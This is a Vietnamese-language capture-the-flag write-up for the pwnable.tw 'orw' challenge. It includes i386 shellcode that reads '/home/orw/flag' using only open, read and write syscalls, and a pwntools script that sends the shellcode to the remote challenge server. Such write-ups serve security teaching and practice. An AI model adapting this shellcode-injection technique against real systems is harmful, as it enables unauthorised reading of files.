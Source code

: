 ```yaml
---
title: Orw

---
```


# Orw
![image](https://hackmd.io/_uploads/Hyvf9wn20.png)
- Chương trình cũng cho ta một file nhị phân
- kiểm tra checksec
![image](https://hackmd.io/_uploads/SyVitvnnC.png)
- Chạy thử chương trình 
![image](https://hackmd.io/_uploads/HytAtv230.png)
- Dường như chương trình cho ta nhập một shellcode
- Nhưng theo đề bài chỉ có được syscall các hàm `open, read, write` và file flag ở `/home/orw/flag`
- Ta cần viết shellcode theo các bước
    - `open` 
    - `read`  
    - `write` 
- Cần đưa chuỗi `/home/orw/flag` vào stack để set tham số để `open`, vì 32 bit nên mỗi lần đưa vào 4 bytebyte
```
push 26465 # 'ag\x00\x00'
push 1818636151 # 'w/fl'
push 1919889253 # 'e/or'
push 1836017711 # '/hom'
```

```python=
#!/usr/bin/python

from pwn import *

context.arch = 'i386'
context.os = 'linux'

#p = process('./orw')
p = remote('chall.pwnable.tw', 10001)

shell = asm('''
	push 26465 
	push 1818636151 
	push 1919889253 
	push 1836017711

	mov ebx, esp
	xor ecx, ecx
	xor edx, edx
	mov eax, 0x5
	int 0x80

	mov ebx, eax
	mov eax, 0x3
	mov ecx, esi
	mov edx, 0x100
	int 0x80

	mov ebx, 0x1
	mov ecx, esi
	mov eax, 0x4
	int 0x80
''')


p.sendafter(b'shellcode:',shell)

p.interactive()
```